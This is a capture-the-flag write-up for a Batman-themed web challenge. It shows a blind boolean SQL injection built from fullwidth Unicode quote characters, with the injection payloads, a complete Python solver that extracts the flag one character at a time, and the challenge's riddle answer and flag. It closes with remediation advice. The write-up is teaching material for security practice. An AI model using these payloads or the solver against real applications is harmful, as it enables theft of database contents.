This writeup covers **The Riddler's Hall of Fame 2**, the second version of the same Batman-themed web challenge.

The first challenge leaked SQL errors and allowed direct data extraction with `UNION SELECT`. This version is stricter. It does not show SQL errors, and it does not print query results anywhere.

Instead, it gives only one signal: whether the current identity is verified or unknown.

## First Look

Opening the challenge shows the same dark Batman-themed site, but this time the navbar includes a **V2 — CLASSIFIED** badge.



Register a normal account with any username and password.



After logging in, the app sends you to the riddle page. The answer is:

```text
footsteps
```



After solving the riddle, you land on the Hall of Fame leaderboard.



Your score appears as `1337`, and there is a green badge at the top:

```text
✓ Identity Verified
Your alias was found in the registry.
```

There are no SQL errors, no leaked rows, and no visible query output. That badge is the only thing the app tells us.

## Reading the Register Form

Going back to the register form and reading the hint text gives the same important clue as the first version:

> The system normalizes all aliases to standard format before verification. Ornamental variants like ＯＲ and ＡＮＤ are accepted but treated as standard characters.



The system normalizes Unicode characters before verification. The same trick from the first challenge still applies, but the exploitation method has to change.

In version 1, `UNION SELECT` worked because the app displayed returned data. In version 2, nothing is displayed. The only output is a boolean response:

- `Identity Verified`
- `Identity Unknown`

## Confirming the Injection

To confirm the injection, register with a condition that is always true:

```sql
x＇ OR (1=1)--
```



Login, solve the riddle, and visit the Hall of Fame.



The app shows:

```text
✓ Identity Verified
```

Now logout and register with a condition that is always false:

```sql
x＇ OR (1=2)--
```

Login again, solve the riddle, and visit the Hall of Fame.



This time the app shows:

```text
✗ Identity Unknown
```

True gives **Verified**. False gives **Unknown**.

That confirms the injection, but it also tells us this is a **blind boolean SQL injection**. We cannot directly read data. We can only ask yes/no questions.

## Why UNION Is Useless Here

Trying the version 1 payload does not help:

```sql
x＇ UNION SELECT flag FROM hall_of_fame_secrets--
```

The result is:

```text
✗ Identity Unknown
```

No data is returned, and nothing is displayed on the page. The app is only checking whether a row exists or not, so a direct `UNION SELECT` extraction is useless here.

We need to turn the flag extraction into a series of true/false checks.

## Confirming the Target Table

First, confirm that the same secret table exists.

Register with:

```sql
x＇ OR (SELECT COUNT(*) FROM hall_of_fame_secrets)>0--
```



The Hall of Fame returns:


```text
✓ Identity Verified
```

The table exists and contains data.

## Finding the Flag Length

The next step is to discover the flag length.

Register with:

```sql
x＇ OR LENGTH((SELECT flag FROM hall_of_fame_secrets LIMIT 1))>10--
```

Then try:

```sql
x＇ OR LENGTH((SELECT flag FROM hall_of_fame_secrets LIMIT 1))>30--
```

Both return verified, so the flag is longer than `10` and longer than `30`.



Then test:

```sql
x＇ OR LENGTH((SELECT flag FROM hall_of_fame_secrets LIMIT 1))>50--
```

This returns unknown, so the flag is shorter than `50`.



Keep narrowing the length until this condition returns verified:

```sql
x＇ OR LENGTH((SELECT flag FROM hall_of_fame_secrets LIMIT 1))=49--
```

The flag is `49` characters long.

## Extracting Characters Manually

Now that the length is known, the flag can be extracted one character at a time.

For the first character:

```sql
x＇ OR SUBSTRING((SELECT flag FROM hall_of_fame_secrets LIMIT 1),1,1)='s'--
```

This returns verified, so the first character is `s`.

For the second character:

```sql
x＇ OR SUBSTRING((SELECT flag FROM hall_of_fame_secrets LIMIT 1),2,1)='e'--
```

This also returns verified, so the second character is `e`.

At this point the method is clear, but doing it manually would be painful. For a 49-character flag, even a small charset can require hundreds or thousands of requests.

So the better approach is to script it.

## Writing the Solver

The solver repeats the same process for every character position:

- Register a new account with a boolean SQL payload.
- Login with that account.
- Solve the riddle automatically.
- Visit `/hall-of-fame`.
- Check if `Identity Verified` appears in the response.
- If it does, the condition is true and the tested character is correct.
- Move to the next position.

Install the dependency and run the script:

```bash
pip install requests
python3 solve.py
```

Here is the solver:

```python
import requests
import string
import time

# Config
BASE_URL = "http://172.27.0.3:5000/"
PASSWORD = "solverpass123"
CHARSET = string.ascii_lowercase + string.digits + string.punctuation + "_-{}"
RIDDLE_A = "footsteps"

FF_APOS = "＇"
FF_DASH = "－"
FF_DASH2 = "－－"

session = requests.Session()

def register(username):
    r = session.post(
        f"{BASE_URL}/register",
        data={"username": username, "password": PASSWORD},
        allow_redirects=True,
    )
    return "Account created" in r.text or "Login" in r.url

def login(username):
    r = session.post(
        f"{BASE_URL}/login",
        data={"username": username, "password": PASSWORD},
        allow_redirects=True,
    )
    return "riddle" in r.url or "hall" in r.url

def solve_riddle():
    r = session.post(
        f"{BASE_URL}/riddle",
        data={"answer": RIDDLE_A},
        allow_redirects=True,
    )
    return "hall" in r.url or "Correct" in r.text

def check_verified():
    r = session.get(f"{BASE_URL}/hall-of-fame", allow_redirects=True)
    return "Identity Verified" in r.text

def logout():
    session.get(f"{BASE_URL}/logout")

def probe(condition):
    payload = f"x{FF_APOS} OR ({condition}){FF_DASH}{FF_DASH} "
    logout()
    register(payload)
    login(payload)
    solve_riddle()
    return check_verified()

def get_flag_length():
    for length in range(1, 100):
        if probe(f"LENGTH((SELECT flag FROM hall_of_fame_secrets LIMIT 1))={length}"):
            return length
    return 0

def get_flag(length):
    flag = ""
    for i in range(1, length + 1):
        for char in CHARSET:
            if char == "'":
                continue
            if probe(f"SUBSTRING((SELECT flag FROM hall_of_fame_secrets LIMIT 1),{i},1)='{char}'"):
                flag += char
                print(f"[+] Position {i:02d}: {char}  →  {flag}")
                break
        time.sleep(0.1)
    return flag

length = get_flag_length()
flag = get_flag(length)
print(f"\nFLAG: {flag}")
```

After running it, the script extracts the flag character by character.



Example output:

```text
[+] Position 01: s  →  s
[+] Position 02: e  →  se
[+] Position 03: c  →  sec
...
FLAG: securinetsisgt{bl1nd_b00l34n_1s_th3_tr43_3n1gm4}
```

## Final Thoughts

This second version removes the easy path from the first challenge. There are no SQL errors and no visible query results.

But the bug is still there: the app accepts Unicode ornamental characters, stores the alias, normalizes it later, and then uses the normalized value in a SQL condition.

The difference is that exploitation becomes blind. Instead of dumping data directly, every piece of information has to be converted into a yes/no question.

The fix is the same core lesson:

- normalize before validation and storage,
- use parameterized SQL queries,
- avoid building SQL strings from user-controlled values,
- avoid exposing verification behavior that can be abused as an oracle.
